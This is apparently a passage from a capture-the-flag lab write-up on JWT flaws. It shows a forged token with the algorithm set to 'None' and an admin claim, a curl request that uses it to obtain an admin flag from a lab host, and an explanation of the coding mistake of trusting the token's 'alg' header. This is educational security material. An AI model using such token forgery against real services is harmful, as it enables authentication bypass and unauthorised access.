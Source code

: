 ![Pasted image 20250503152404.png](../../../IMAGES/Pasted%20image%2020250503152404.png)

New token will be:

```json
eyJ0eXAiOiJKV1QiLCJhbGciOiJOb25lIn0=.eyJ1c2VybmFtZSI6InVzZXIiLCJhZG1pbiI6MX0.QDbJj7L9iz9m8bWmiN3_Ujt7Q8Gm8VNlMW0fgqu0mdc
```


```json
curl -H 'Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJOb25lIn0=.eyJ1c2VybmFtZSI6InVzZXIiLCJhZG1pbiI6MX0.QDbJj7L9iz9m8bWmiN3_Ujt7Q8Gm8VNlMW0fgqu0mdc' "http://10.10.131.92/api/v1.0/example3?username=admin"
{
  "message": "Welcome admin, you are an admin, here is your flag: THM{fb9341e4-5823-475f-ae50-4f9a1a4489ba}"
}
```



**The Development Mistake**

While this may seem like the same issue as before, from a development perspective, it is slightly more complex. Sometimes, developers want to ensure their implementation accepts several JWT signature verification algorithms. The implementation would then usually read the header of the JWT and parse found alg into the signature verification component, as shown below:

```python
header = jwt.get_unverified_header(token)

signature_algorithm = header['alg']

payload = jwt.decode(token, self.secret, algorithms=signature_algorithm)
```
